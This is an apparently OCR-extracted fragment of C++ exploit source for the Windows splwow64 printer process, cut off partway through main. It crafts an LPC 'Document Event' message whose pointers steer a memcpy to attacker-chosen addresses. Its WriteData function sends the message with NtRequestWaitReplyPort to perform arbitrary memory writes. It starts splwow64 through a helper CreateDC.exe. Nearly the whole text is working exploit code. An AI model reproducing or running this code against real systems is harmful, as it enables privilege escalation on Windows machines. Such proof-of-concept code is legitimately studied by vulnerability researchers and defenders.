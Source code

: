 ```c++
        *(UINT64*)ClientView.ViewBase = 0x6D00000000; //Msg Type (Document Event)
        *((UINT64*)ClientView.ViewBase + 3) = (UINT64)ClientView.ViewRemoteBase + 0x100; //First arg to FindPrinterHandle
        *((UINT64*)ClientView.ViewBase + 4) = 0x500000005;  // 2nd arg to FindPrinterHandle
        *((UINT64*)ClientView.ViewBase + 7) = 0x2000000001; //iEsc argument to DocumentEvent
        *((UINT64*)ClientView.ViewBase + 0xA) = (UINT64)ClientView.ViewRemoteBase + 0x800; //Buffer out to DocumentEvent, pointer to pointer of src of memcpy
        *((UINT64*)ClientView.ViewBase + 0xB) = (UINT64)ClientView.ViewRemoteBase + 0x840; //Destination of memcpy
        *((UINT64*)ClientView.ViewBase + 0x28) = (UINT64)ClientView.ViewRemoteBase + 0x160;
        *((UINT64*)ClientView.ViewBase + 0x2D) = 0x500000005;
        *((UINT64*)ClientView.ViewBase + 0x2E) = (UINT64)ClientView.ViewRemoteBase + 0x200;
        *((UINT64*)ClientView.ViewBase + 0x40) = 0x6767;
        *((UINT64*)ClientView.ViewBase + 0x100) = (UINT64)ClientView.ViewRemoteBase + 0x810;
        return ClientView.ViewBase;
}

void DebugWrite()
{
        printf("Copy from 0x%llX to 0x%llX (0x%llX bytes)\n", *((UINT64*)ClientView.ViewBase + 0x100), *((UINT64*)ClientView.ViewBase + 0xB), *((UINT64*)ClientView.ViewBase + 0x10A) >> 48);
}

bool WriteData(HANDLE portHandle, UINT64 offset, UCHAR* buf, UINT64 size)
{
        *((UINT64*)ClientView.ViewBase + 0xB) = offset;
        *((UINT64*)ClientView.ViewBase + 0x10A) = size << 48;
        memcpy(ClientView.ViewBase + 0x810, buf, size);

        DebugWrite();

        return NtRequestWaitReplyPort(portHandle, &LpcRequest, &LpcReply) == 0;

}

int main()
{
        printf("Start\n");
        Init();
        printf("Init done\n");

        CHAR Path[0x100];
        
        /* Starts splwow64 by executing CreateDC.exe. CreateDC.exe is an x86 executable that simply calls 
CreateDCA("Microsoft XPS Document Writer", "Microsoft XPS Document Writer", 0, 0);*/
        GetCurrentDirectoryA(sizeof(Path), Path);
        PathAppendA(Path, "CreateDC.exe");

        if (!(PathFileExistsA(Path)))
        {
                printf("CreateDC.exe does not exist\n");
                return 0;
        }
        WinExec(Path, 0);
        
        CreateDCW(L"Microsoft XPS Document Writer", L"Microsoft XPS Document Writer", NULL, NULL);
        
        printf("Get port name\n");

        UNICODE_STRING portName;
        if (!GetPortName(&portName))
        {
```